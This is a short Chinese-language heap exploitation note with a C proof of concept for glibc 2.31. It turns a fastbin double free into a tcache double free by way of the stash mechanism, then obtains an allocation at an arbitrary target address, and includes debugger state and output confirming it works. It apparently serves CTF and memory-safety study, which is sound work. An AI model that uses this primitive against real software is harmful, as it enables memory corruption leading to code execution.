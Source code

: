 



## new fastbin double_free

how2heap没有列，但是这是个重要的点。

利用tcache的stash机制，将fastbin的double free迁移到tcache的double free，
利用tcache的申请无size段检查的宽松特性结合UAF来申请任意地址。

```c
#include<stdio.h>
#include<stdlib.h>
#include<string.h>
#include<malloc.h>
#include<assert.h>

int main(){
	char *p_tcache[20];
	for(int i=0;i<7;i++){
		p_tcache[i] = malloc(0x40);
	}
	char *p1 = malloc(0x40);
	char *p2 = malloc(0x40);
	char *p3 = malloc(0x40);
	for(int i=0;i<7;i++){
		free(p_tcache[i]);
	}
	// Double Free in fastbin
	free(p1);
	free(p2);
	free(p1);
	// fastbin: p1->p2->p1
	for(int i=0;i<7;i++){
		p_tcache[i] = malloc(0x40);
	}
	/*
	fastbins
	0x50: 0x5555555594c0 —▸ 0x555555559510 ◂— 0x5555555594c0
	*/
	char *trigger = malloc(0x40);
	/*
	tcachebins
	0x50 [  3]: 0x555555559520 —▸ 0x5555555594d0 ◂— 0x555555559520
	*/
	
	long long *p_t = (long long*)trigger;
	long long target = 0x6666666;
	printf("target address is @ %p\n",&target);
	p_t[0] = &target; // edit "fd" (next)
	// p1->target
	char *p = malloc(0x40);
	char *q = malloc(0x40);
	char *r = malloc(0x40);
	printf("chunk r @ %p, where the target is!\n",r);
}
/*
➜  glibc-2.31 ./new_fastbin_double_free                                  
target address is @ 0x7fffdc8f6a18
chunk r @ 0x7fffdc8f6a18, where the target is!
*/
```
